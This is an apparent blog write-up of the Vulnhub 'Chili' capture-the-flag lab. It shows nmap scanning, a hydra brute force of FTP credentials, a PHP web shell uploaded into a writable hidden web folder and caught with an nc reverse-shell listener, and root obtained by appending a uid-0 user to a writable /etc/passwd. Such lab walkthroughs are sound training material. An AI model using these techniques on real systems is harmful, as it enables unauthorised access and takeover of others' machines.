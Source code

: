 ```yaml
---
title: Vulnhub - Chili
description: My writeup on Chili box.
categories:
 - vulnhub
tags: vulnhub ftp hydra etcpasswd
---
```


![](https://mcdn.wallpapersafari.com/medium/21/18/VJEMQh.jpeg)

You can find the machine there > [Chili](https://www.vulnhub.com/entry/chili-1,558/){:target="_blank"}

## Summary

This one was a pretty tricky box that i enjoyed a lot! Is easy but you have to think smart. We start by brute forcing FTP this will give us access to all system files, we search for a writeable directory under `/var/www/html` and we place our shell there. Privilege escalation to root is easy, `/etc/passwd` is writeable. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.13
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 20:15 EEST
Nmap scan report for chili.zte.com.cn (192.168.1.13)
Host is up (0.00012s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 00:0C:29:14:B9:34 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.03 seconds
$ nmap -p21,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 20:16 EEST
Nmap scan report for chili.zte.com.cn (192.168.1.13)
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Chili
```

Port 80 has nothing interesting, i checked `/robots.txt` i tried directory brute force with gobuster with lot of wordlists but nothing. Anyway i checked the hint that maker provided on vulnhub page `If you ever get stuck, try again with the name of the lab` ahh here we go, let's brute force FTP using username `chili`. (takes some time)

```
$ hydra -l chili -P /usr/share/wordlists/rockyou.txt $ip ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-18 20:20:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.13:21/
[STATUS] 292.00 tries/min, 292 tries in 00:01h, 14344107 to do in 818:44h, 16 active
[STATUS] 282.67 tries/min, 848 tries in 00:03h, 14343551 to do in 845:44h, 16 active
[STATUS] 286.86 tries/min, 2008 tries in 00:07h, 14342391 to do in 833:19h, 16 active
[STATUS] 284.00 tries/min, 4260 tries in 00:15h, 14340139 to do in 841:34h, 16 active
[21][ftp] host: 192.168.1.13   login: chili   password: a1b2c3d4
```

## Shell as www-data

Perfect, we can login in as `chili:a1b2c3d4`. I enumerated the system but there is no SSH so only 1 solution left if we upload a shell under `/var/www/html` but isn't writable. There is a hidden folder under `/var/www/html` that is writable:

```
$ ftp $ip
Connected to 192.168.1.13.
220 (vsFTPd 3.0.3)
Name (192.168.1.13:root): chili
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /var/www/html
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Sep 08 13:12 .
drwxr-xr-x    3 0        0            4096 Sep 08 11:41 ..
drwxrwxrwx    2 0        0            4096 Sep 08 13:14 .nano <-----
drwxr-xr-x    2 0        0            4096 Sep 08 13:12 .vim
-rw-r--r--    1 0        0           74290 Oct 23  2018 Chile_WEB.jpg
-rw-r--r--    1 0        0             657 Sep 08 11:44 index.html
226 Directory send OK.
ftp> 
```

Let's upload a php web shell under `.nano` and make it executable.

```
ftp> cd .nano
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (38.5256 MB/s)
ftp> chmod 007 shell.php
200 SITE CHMOD command ok.
```

Now let's execute it & get shell.

```
$ curl http://$ip/.nano/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@chili:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as chili

We can use the same FTP password to privesc to user chili now.

```
www-data@chili:/$ su - chili
Password: a1b2c3d4

chili@chili:~$ whoami;id
chili
uid=1000(chili) gid=1000(chili) groups=1000(chili),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## Shell as root

After some enumeration, i found that `/etc/passwd` is writable. Let's simply add a root user in.

```
chili@chili:~$ ls -la /etc/passwd
-rw-r--rw- 1 root root 1450 Sep  8 12:23 /etc/passwd
````

Let's generate a password:

```
$ openssl passwd -6 -salt xyz pwned   
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now we can add our user in.

```
chili@chili:~$ echo 'pwned:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0::/root:/bin/bash' >> /etc/passwd
chili@chili:~$ su - pwned
Password: pwned

root@chili:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flag.

```
root@chili:~# cat proof.txt
Sun_CSR.Chili.af6d45da1f1181347b9e2139f23c6a5b
```

Lot of fun! :smile:
